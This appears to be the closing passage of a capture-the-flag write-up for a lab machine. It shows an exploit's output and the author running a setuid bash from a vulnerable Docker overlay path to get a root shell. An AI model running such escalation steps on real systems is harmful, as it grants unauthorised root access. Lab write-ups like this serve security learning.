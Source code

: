 ```shell
[!] Rooted !
[>] Current Vulnerable Path: /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
[?] If it didn't spawn a shell go to this path and execute './bin/bash -p'

[!] Spawning Shell
bash-5.1# exit
marcus@monitorstwo:/dev/shm$
```

For some reason the exploit didn't spawn a shell but by following the instructions we can just do it by ourselves.

```shell
marcus@monitorstwo:/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged$ ./bin/bash -p
bash-5.1# whoami
root
```

That's all, thanks for reading!.
